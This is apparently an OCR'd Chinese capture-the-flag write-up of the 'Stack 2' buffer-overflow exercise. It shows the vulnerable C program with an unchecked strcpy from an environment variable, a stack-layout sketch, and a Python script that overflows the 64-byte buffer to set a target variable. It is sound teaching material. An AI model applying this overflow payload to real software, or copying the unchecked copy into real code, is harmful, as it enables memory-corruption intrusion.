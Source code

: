 # Stack 2

## （一） 题目：

\#include &lt;stdlib.h&gt;

\#include &lt;unistd.h&gt;

\#include &lt;stdio.h&gt;

\#include &lt;string.h&gt;

int main\(int argc, char \*\*argv\)

{

volatile int modified;

char buffer\[64\];

char \*variable;

variable = getenv\("GREENIE"\);

if\(variable == NULL\) {

```
  errx\(1, "please set the GREENIE environment variable\n"\);
```

}

modified = 0;

strcpy\(buffer, variable\);

if\(modified == 0x0d0a0d0a\) {

```
  printf\("you have correctly modified the variable\n"\);
```

} else {

```
  printf\("Try again, you got 0x%08x\n", modified\);
```

}

## （二）解题过程：

函数变量在内存中的分布如上提。栈溢出

variable

buffer\[64\]

modified         0a0d0a0d

argc

argv

用python构造利用代码 exploit.py

 import os

 def main\(\):

     envval = 'A'\*64 + '\x0a\x0d\x0a\x0d'

     os.putenv\("GREENIE", envval\)

     os.system\("./stack2"\)

 if \_\_name\_\_ == "\_\_main\_\_":

     main\(\)

注意地址的顺序和字节在内存中的顺序正好相反。

![](/png/10.png)

